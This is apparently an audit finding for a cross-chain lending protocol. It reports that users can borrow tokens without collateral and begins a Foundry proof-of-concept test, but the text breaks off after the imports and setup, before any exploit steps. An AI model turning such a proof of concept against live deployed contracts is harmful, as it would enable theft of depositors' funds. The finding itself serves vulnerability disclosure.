NA

### Impact

User can borrow tokens without providing any collaterals.

### PoC

Please run `forge test --mt testPOC_BorrowWithoutProvidingCollaterals`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import "forge-std/Test.sol";

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {SafeERC20} from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";

import {ILayerZeroEndpointV2} from "@layerzerolabs/lz-evm-protocol-v2/contracts/interfaces/ILayerZeroEndpointV2.sol";

import {Lend} from "../src/Governance/Lend.sol";
import {Lendtroller, LendtrollerInterface} from "../src/Lendtroller.sol";
import {LErc20Immutable, LToken} from "../src/LErc20Immutable.sol";
import {SimplePriceOracle} from "../src/SimplePriceOracle.sol";
import {WhitePaperInterestRateModel, InterestRateModel} from "../src/WhitePaperInterestRateModel.sol";

import {LendStorage} from "../src/LayerZero/LendStorage.sol";
import {CoreRouter} from "../src/LayerZero/CoreRouter.sol";
import {CrossChainRouter, Origin} from "../src/LayerZero/CrossChainRouter.sol";

contract POC is Test {
    using SafeERC20 for IERC20;

    uint32 constant chainAEid = 30101; // Ethereum
    uint32 constant chainBEid = 30184; // Base

    address owner;
    address mockDestLToken;
    address mockPeer;

    IERC20 btc;
    IERC20 dai;
    IERC20 weth;

    LErc20Immutable lTokenBTC;
    LErc20Immutable lTokenDAI;
    LErc20Immutable lTokenWETH;

    Lend lend;

    ILayerZeroEndpointV2 endpoint;

    Lendtroller lendtroller;
    SimplePriceOracle priceOracle;
    WhitePaperInterestRateModel interestRateModel;

    LendStorage lendStorage;
    CoreRouter coreRouter;
    CrossChainRouter crossChainRouter;

    function setUp() public {
        vm.createSelectFork("https://eth.drpc.org");
```